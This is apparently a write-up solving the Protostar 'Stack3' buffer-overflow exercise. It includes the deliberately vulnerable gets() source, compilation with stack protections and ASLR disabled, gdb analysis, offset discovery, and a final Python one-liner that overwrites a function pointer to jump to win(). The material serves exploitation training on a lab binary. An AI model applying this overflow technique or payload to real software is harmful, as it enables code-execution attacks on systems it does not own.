 ## Protostar-Stack3 Solution

### 1. Introduction

This is a poc solution for the "Stack3" challenge of Protostar. It's short and hopefully it's easy for everyone who wants to have a look.

Source:
[https://web.archive.org/web/20170417130221/https://exploit-exercises.com/protostar/stack3/](https://web.archive.org/web/20170417130221/https://exploit-exercises.com/protostar/stack3/) 

**Hints:**
*  Stack3 looks at environment variables, and how they can be set, and overwriting function pointers stored on the stack (as a prelude to overwriting the saved EIP)
* both gdb and objdump is your friend you determining where the win() function lies in memory.

#### 1.1 Source code
```c
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

void win()
{
  printf("code flow successfully changed\n");
}

int main(int argc, char **argv)
{
  volatile int (*fp)();
  char buffer[64];

  fp = 0;

  gets(buffer);

  if(fp) {
      printf("calling function pointer, jumping to 0x%08x\n", fp);
      fp();
  }
}
```

#### 1.2 Compilation

Terminal command to compile with debug symbols + without pie + without nx-bit + Disable canaries + Disable ASLR + for x86:

```js
sudo bash -c 'echo 0 > /proc/sys/kernel/randomize_va_space'

gcc -o 3 3.c -z execstack -fno-stack-protector -m32 -no-pie -g
```

### 2. Solution 

#### 2.1 Short Analysis with gdb-peda

1. Silently (-q) start with gdb.
2. Set intel syntax.
3. Disassemble the main function.
4. List functions.

```nasm
$ gdb -q 3
Reading symbols from 3...
gdb-peda$ set disassembly-flavor intel
gdb-peda$ disas main
Dump of assembler code for function main:
   0x08049205 <+0>:	endbr32 
   0x08049209 <+4>:	lea    ecx,[esp+0x4]
   0x0804920d <+8>:	and    esp,0xfffffff0
   0x08049210 <+11>:	push   DWORD PTR [ecx-0x4]
   0x08049213 <+14>:	push   ebp
   0x08049214 <+15>:	mov    ebp,esp
   0x08049216 <+17>:	push   ebx
   0x08049217 <+18>:	push   ecx
   0x08049218 <+19>:	sub    esp,0x50
   0x0804921b <+22>:	call   0x8049110 <__x86.get_pc_thunk.bx>
   0x08049220 <+27>:	add    ebx,0x2de0
   0x08049226 <+33>:	mov    DWORD PTR [ebp-0xc],0x0
   0x0804922d <+40>:	sub    esp,0xc
   0x08049230 <+43>:	lea    eax,[ebp-0x4c]
   0x08049233 <+46>:	push   eax
   0x08049234 <+47>:	call   0x8049090 <gets@plt>
   0x08049239 <+52>:	add    esp,0x10
   0x0804923c <+55>:	cmp    DWORD PTR [ebp-0xc],0x0
   0x08049240 <+59>:	je     0x804925c <main+87>
   0x08049242 <+61>:	sub    esp,0x8
   0x08049245 <+64>:	push   DWORD PTR [ebp-0xc]
   0x08049248 <+67>:	lea    eax,[ebx-0x1fd8]
   0x0804924e <+73>:	push   eax
   0x0804924f <+74>:	call   0x8049080 <printf@plt>
   0x08049254 <+79>:	add    esp,0x10
   0x08049257 <+82>:	mov    eax,DWORD PTR [ebp-0xc]
   0x0804925a <+85>:	call   eax
   0x0804925c <+87>:	mov    eax,0x0
   0x08049261 <+92>:	lea    esp,[ebp-0x8]
   0x08049264 <+95>:	pop    ecx
   0x08049265 <+96>:	pop    ebx
   0x08049266 <+97>:	pop    ebp
   0x08049267 <+98>:	lea    esp,[ecx-0x4]
   0x0804926a <+101>:	ret    
End of assembler dump.
```

Let's examine functions, **"info address win"** can also be useful

```c 
gdb-peda$ info functions
All defined functions:

File 3.c:
12:	int main(int, char **);
7:	void win(); <==Target to jump.

gdb-peda$ print win
$3 = {void ()} 0x80491d6 <win>
```

Goal is simple, jumping to **win()** function. We can achieve this goal by overwriting the **fp** with the address of **win()** function. 


Let's analyze a bit more the following part of the asm code.
```nasm
   0x08049257 <+82>:	mov    eax,DWORD PTR [ebp-0xc]
   0x0804925a <+85>:	call   eax
```

We are actually manipulating eax register to control program flow.
Let's set a breakpoint to just one previous instruction.

```x86asm
gdb-peda$ b *0x08049257
Breakpoint 1 at 0x8049257: file 3.c, line 23.
gdb-peda$ r
Starting program: /home/thomas/Desktop/protostar/3 
aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa
calling function pointer, jumping to 0x61616161
...TRIM...
Breakpoint 1, main (argc=<error reading variable: Cannot access memory at address 0x61616161>, argv=<error reading variable: Cannot access memory at address 0x61616165>) at 3.c:23
23	
```

OK, we hit breakpoint let's examine fp() function, stack memory and registers a bit more.

```nasm
gdb-peda$ print fp
$1 = (int (*)()) 0x61616161
gdb-peda$ print &fp
$2 = (int (**)()) 0xffffd13c
gdb-peda$ p/d 0xc
$3 = 12
gdb-peda$ x/12wx $ebp-0xc
0xffffd13c:	0x61616161	0x61616161	0x61616161	0x61616161
0xffffd14c:	0x61616161	0x61616161	0x61616161	0x61616161
0xffffd15c:	0x61616161	0x61616161	0x61616161	0x61616161
gdb-peda$ i r
eax            0x30                0x30
```

OK **eax** is same because we need to run one more step to see the difference.

```nasm
gdb-peda$ si
...TRIM...
   0x8049257 <main+82>:	mov    eax,DWORD PTR [ebp-0xc]
=> 0x804925a <main+85>:	call   eax
   0x804925c <main+87>:	mov    eax,0x0
...TRIM...
gdb-peda$ i r eax
eax            0x61616161          0x61616161
```

Good, we manipulated the **eax** register. 



#### 2.2 Quick Solution

The function win() is at address **0x80491d6**, so our payload will have an offset + target address:

**buffsize * "\x90"** + **"\xd6\x91\x04\x08"**

Let's check the offset size with a different way that we didn't do on stack-1 solution.

Let's create a set of characters.

> Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2A


```x86asm
gdb-peda$ r
Starting program: ./3 
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2A
calling function pointer, jumping to 0x63413163
```
OK, **jumping to "0x63413163"**, therefore offset is **64**.


```nasm
gdb-peda$ r <<< $(python2 -c 'print "\x90"*64 + "\xd6\x91\x04\x08"')
Starting program: ./3 <<< $(python2 -c 'print "\x90"*64 + "\xd6\x91\x04\x08"')
calling function pointer, jumping to 0x080491d6
code flow successfully changed
```

#### 2.3 Final PoC

```nasm
$ python -c "print 'A' * 64 + '\xd6\x91\x04\x08'" | ./3
calling function pointer, jumping to 0x080491d6
code flow successfully changed
Segmentation fault (core dumped)
```
